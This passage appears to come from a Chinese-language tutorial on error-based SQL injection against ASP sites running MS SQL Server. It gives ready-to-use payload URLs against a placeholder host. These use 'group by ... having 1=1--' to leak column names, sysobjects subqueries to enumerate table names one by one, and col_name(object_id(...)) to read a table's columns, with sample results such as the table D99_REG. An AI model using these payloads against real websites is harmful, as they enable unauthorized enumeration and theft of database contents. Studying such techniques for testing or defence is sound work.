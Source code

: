 ```
http://www.xxx.com/xx.asp?id=xxxx group by FORUM_TOPICS.TOPIC_ID.FORUM_TOPICS having 1=1--
```

可以得到一个T_SUBJECT列名

![image.png](https://upload-images.jianshu.io/upload_images/7216746-dba144f5c0236c05.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

```
http://www.xxx.com/xx.asp?id=xxxx group by FORUM_TOPICS.TOPIC_ID.FORUM_TOPICS.T_SUBJECT having 1=1--
```
使用上述语句可以得到其他的列名

上面的方法的原理是在SQL语句中，having 1=1--是与group by结合使用并进行条件判断的，如果语句不完整，数据库就会返回错误信息，并显示一个表名和一个列名

## 暴任意表名

语句为：and (select top 1 name from (select top N id,name from sysobjects where xtype=char(85)) T order by id desc) > 1。其中N代表数据库中的第N个表。

```
http://www.xxx.com/xx.asp?id=xxxx and (select top 1 name) and (select top 1 name from (select top 1 id,name from sysobjects where xtype=char(85)) T order by id desc) > 1
```

猜解到第一个表的表名为D99_REG，如下图：

![image.png](https://upload-images.jianshu.io/upload_images/7216746-edda39c3d517b9a9.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

```
http://www.xxx.com/xx.asp?id=xxxx and (select top 1 name) and (select top 2 name from (select top 1 id,name from sysobjects where xtype=char(85)) T order by id desc) > 1
```

猜解到第二个表名shit_tmp，如下图：

![image.png](https://upload-images.jianshu.io/upload_images/7216746-4a92ec57ae8ab951.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 暴任意表中的任意列的数据

语句为：and (select top 1 col_name(object_id('表名'),N) from sysobjects) > 1

```
http://www.xxx.com/xx.asp?id=xxxx and (select top 1 col_name(object_id('D99_REG'),1) from sysobjects) > 1
```

上述语句暴出D99_REG表中的第一个列名为ID

![image.png](https://upload-images.jianshu.io/upload_images/7216746-71a0666ea620373e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

```
http://www.xxx.com/xx.asp?id=xxxx and (select top 1 col_name(object_id('D99_REG'),2) from sysobjects) > 1
```
